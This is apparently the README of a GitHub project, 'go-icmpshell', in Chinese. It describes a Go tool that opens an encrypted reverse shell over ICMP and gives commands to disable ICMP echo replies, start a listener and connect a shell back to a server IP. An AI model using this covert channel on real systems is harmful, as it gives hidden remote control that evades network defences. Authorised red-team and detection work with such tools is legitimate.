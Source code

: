 # go-icmpshell
一款基于 `gopacket` 编写的 ICMP 反弹 shell 工具

## Features
- 支持自定义 ICMP 通信 id
- 基于 `token` 进行协商认证
- 针对传输载荷进行有效加密

## Usage
Server 端禁用 ICMP 自动 Reply
```shell
echo "1" >  /proc/sys/net/ipv4/icmp_echo_ignore_all
```

Server 端启动监听
```shell
./server --token [secret]
```

Shell 端通过 ICMP 反弹 Shell
```shell
./shell --token [secret] --ip [server_ip_address]
```
